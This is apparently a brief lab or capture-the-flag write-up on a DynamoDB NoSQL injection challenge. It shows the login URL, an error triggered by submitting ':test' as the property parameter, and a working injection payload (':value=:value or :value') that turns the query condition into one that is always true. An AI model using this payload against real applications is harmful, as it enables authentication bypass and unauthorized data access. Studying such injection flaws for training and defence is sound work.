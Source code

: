 # dynamodb nosql injection 2

Username and password submitted through url `/index.jsp?property=UserName&value=bob&password=password`

Submitting `:test` to property - `/index.jsp?property=:test&value=bob&password=password` gives an error

![](./dynamo-nosql2-error.PNG)

Replace payload with `/index.jsp?property=:value=:value or :value&value=bob&password=password`

![](./dynamo-nosql2-inject.PNG)